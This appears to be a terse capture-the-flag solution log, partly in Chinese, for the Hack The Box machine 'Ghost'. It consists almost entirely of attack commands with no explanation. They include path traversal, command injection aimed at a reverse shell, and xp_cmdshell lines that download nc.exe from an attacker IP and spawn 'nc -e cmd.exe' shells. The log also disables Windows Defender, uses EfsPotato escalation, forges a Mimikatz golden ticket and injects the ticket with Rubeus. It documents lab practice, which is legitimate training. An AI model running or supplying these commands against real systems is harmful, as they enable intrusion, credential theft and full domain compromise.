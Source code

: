 # Ghost


http://ghost.htb:8008/ghost/api/v3/content/posts/?extra=../../../../etc/passwd&key=a5af628828958c976a3b6cc81a


curl http://intranet.ghost.htb:8008/api-dev/scan -X POST -H 'X-DEV-INTRANET-KEY: !@y******' -H 'Content-Type: application/json' -d '{"url": "<<bash 196 revshell>>"}'


python3 mssqlclient.py ghost.htb/intranet_principal:'He******'@DC01.ghost.htb -windows-auth

impacket-mssqlclient florence.ramirez:'He*****'@ghost.htb -windows-auth

ux******和He******都可以

enum_links

use_link [PRIMARY]

use master

exec_as_login sa

--impacket-mssqlclient-- 
                      
                             EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://10.10.xx.xx/nc.exe -OutFile $env:TEMP\nc.exe"'

                             EXEC xp_cmdshell '%TEMP%\nc.exe -e cmd.exe 10.10.xx.xx xxxx';

                             
--python3 mssqlclient.py-- 

                              xp_cmdshell


./EfsPotato.exe 'nc.exe -e cmd.exe 10.10.xx.xx xxxx'


wmic useraccount get name,sid


关AV：
Set-MpPreference -DisableRealtimeMonitoring $true


.\mimikatz.exe "lsadump::trust /patch" exit


.\mimikatz.exe "kerberos::golden /user:Administrator /domain:CORP.GHOST.HTB /sid:S-1-5-21-2034262909-2733679486-179904498-502 /sids:S-1-5-21-4084500788-938703357-3654145966-519 /rc4:dae1ad83e2af14a379017f244a2f5297 /service:krbtgt /target:GHOST.HTB /ticket:golden.kirbi" exit


.\Rubeus.exe asktgs /ticket:golden.kirbi /dc:dc01.ghost.htb /service:CIFS/dc01.ghost.htb /nowrap /ptt


type \\DC01.ghost.htb\c$\Users\justin.bradley\Desktop\user.txt
type \\DC01.ghost.htb\c$\Users\Administrator\Desktop\root.txt
